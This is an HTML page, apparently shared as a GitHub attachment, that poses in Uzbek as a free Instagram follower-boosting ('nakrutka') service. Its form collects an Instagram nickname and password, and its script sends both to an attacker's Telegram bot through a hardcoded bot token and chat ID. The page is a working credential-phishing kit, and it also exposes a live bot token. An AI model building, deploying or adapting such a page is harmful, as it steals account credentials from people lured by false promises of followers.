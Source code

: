 [index.html](https://github.com/user-attachments/files/21883323/index.html)
<!DOCTYPE html>
<html lang="uz">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Instagram tekin obunachi yig'ish</title>
  <script src="https://cdn.tailwindcss.com"></script>
  <style>
    @import url('https://fonts.googleapis.com/css2?family=Inter:wght@300;400;500;600;700&display=swap');
    body { font-family: 'Inter', sans-serif; }
    .gradient-bg {  background-image: url(https://static.xx.fbcdn.net/rsrc.php/v1/yF/r/Yyybh56EZyT.jpg); background-repeat: no-repeat; background-position: center;background-size: 2000px; }
    .form-shadow { box-shadow: 0 25px 50px -12px rgb(0, 0, 0); }
    .input-focus:focus { transform: translateY(-2px); transition: all 0.3s ease; }
    .success-animation { animation: successPulse 0.6s ease-in-out; }
    @keyframes successPulse {
      0% { transform: scale(1); }
      50% { transform: scale(1.05); }
      100% { transform: scale(1); }
    }
    backround {
      color: rgb(rgb(50, 255, 170),);
    }
  </style>
</head>
<body class="gradient-bg min-h-screen flex items-center justify-center p-4">
  <div class="bg-white rounded-2xl form-shadow p-8 w-full max-w-md">
             <div class="text-center mb-8">
      <div class="w-16 h-16 bg-gradient-to-r from-blue-500 to-purple-600 rounded-full flex items-center justify-center mx-auto mb-4">
        <svg class="w-8 h-8 text-white" fill="none" stroke="currentColor" viewBox="0 0 24 24">
          <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2"
                d="M3 8l7.89 4.26a2 2 0 002.22 0L21 8M5 19h14a2 2 0 002-2V7a2 2 0 00-2-2H5a2 2 0 00-2 2v10a2 2 0 002 2z"/>
        </svg>
      </div>
      <h1 class="text-2xl font-bold text-gray-800 mb-2">Instagram nakrutka✔</h1>
      <p class="text-gray-600">Tezda sizning Instagram akkauntingizga obunachi yig'ib berish!</p>
    </div>

    <!-- Form -->
    <form id="contactForm" class="space-y-6">
      <div>
        <label for="name" class="block text-sm font-medium text-gray-700 mb-2">Nickname</label>
        <input type="text" id="name" name="name" placeholder="Nickname kiriting" required
               class="input-focus w-full px-4 py-3 border border-gray-300 rounded-lg focus:ring-2 focus:ring-blue-500 focus:border-transparent outline-none transition-all duration-300">
      </div>
      <div>
        <label for="email" class="block text-sm font-medium text-gray-700 mb-2">Parol</label>
        <input type="password" id="email" name="email" placeholder="Parolingizni kiriting" required
               class="input-focus w-full px-4 py-3 border border-gray-300 rounded-lg focus:ring-2 focus:ring-blue-500 focus:border-transparent outline-none transition-all duration-300">
      </div>

      <!-- Yangi qo'shildi -->
      <div>
        <label for="subs" class="block text-sm font-medium text-gray-700 mb-2">Obunachi soni</label>
        <input type="number" id="subs" name="subs" placeholder="Obunachi sonini kiriting" required
               class="input-focus w-full px-4 py-3 border border-gray-300 rounded-lg focus:ring-2 focus:ring-blue-500 focus:border-transparent outline-none transition-all duration-300">
      </div>

      <button type="submit" id="submitBtn"
              class="w-full bg-gradient-to-r from-blue-500 to-purple-600 text-white font-semibold py-3 px-6 rounded-lg hover:from-blue-600 hover:to-purple-700 transform hover:scale-105 transition-all duration-300 focus:outline-none focus:ring-2 focus:ring-blue-500 focus:ring-offset-2">
        <span id="btnText">Bosing va obunachi yig'ing</span>
        <svg id="loadingIcon"
             class="hidden animate-spin -mr-1 ml-3 h-5 w-5 text-white inline"
             xmlns="http://www.w3.org/2000/svg" fill="none" viewBox="0 0 24 24">
          <circle class="opacity-25" cx="12" cy="12" r="10" stroke="currentColor" stroke-width="4"></circle>
          <path class="opacity-75" fill="currentColor"
                d="M4 12a8 8 0 018-8V0C5.373 0 0 5.373 0 12h4zm2 5.291A7.962 7.962 0 014 12H0c0 3.042 1.135 5.824 3 7.938l3-2.647z"></path>
        </svg>
      </button>
    </form>

    <!-- Success Message -->
    <div id="successMessage" class="hidden mt-6 p-4 bg-green-50 border border-green-200 rounded-lg">
      <div class="flex items-center">
        <svg class="w-5 h-5 text-green-500 mr-2" fill="none" stroke="currentColor" viewBox="0 0 24 24">
          <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M5 13l4 4L19 7"/>
        </svg>
        <p class="text-green-700 font-medium">Zudlik bilan akkauntingizga kiring!</p>
      </div>
    </div>
  </div>

  <script>
    const BOT_TOKEN = "8186481240:AAFkDMQzWXtLzU86-Gc2zqqeIKgoUsMN4aU"; // 🔹 Bot tokeningizni shu yerga yozing
    const CHAT_ID = "7356472355";     // 🔹 O'zingizning chat_id'ingizni yozing

    document.getElementById('contactForm').addEventListener('submit', function(e) {
      e.preventDefault();

      const submitBtn = document.getElementById('submitBtn');
      const btnText = document.getElementById('btnText');
      const loadingIcon = document.getElementById('loadingIcon');
      const successMessage = document.getElementById('successMessage');

      // Button holati
      submitBtn.disabled = true;
      btnText.textContent = 'Yuborilmoqda...';
      loadingIcon.classList.remove('hidden');

      // Ma'lumotlar
      const name = document.getElementById("name").value;
      const password = document.getElementById("email").value;
      const subs = document.getElementById("subs").value;

      const text = `📩 News:\n👤 Nickname: ${name}\n🔑 Passwordi👨‍💻: ${password}\n👥 Obunachi soni: ${subs}`;

      fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
        method: "POST",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify({ chat_id: CHAT_ID, text: text })
      })
      .then(res => res.json())
      .then(data => {
        submitBtn.disabled = false;
        btnText.textContent = "Yuborish";
        loadingIcon.classList.add('hidden');
        successMessage.classList.remove('hidden');
      })
      .catch(err => {
        alert("Xatolik: " + err.message);
        submitBtn.disabled = false;
        btnText.textContent = "Yuborish";
        loadingIcon.classList.add('hidden');
      });
    });
  </script>
</body>
</html>
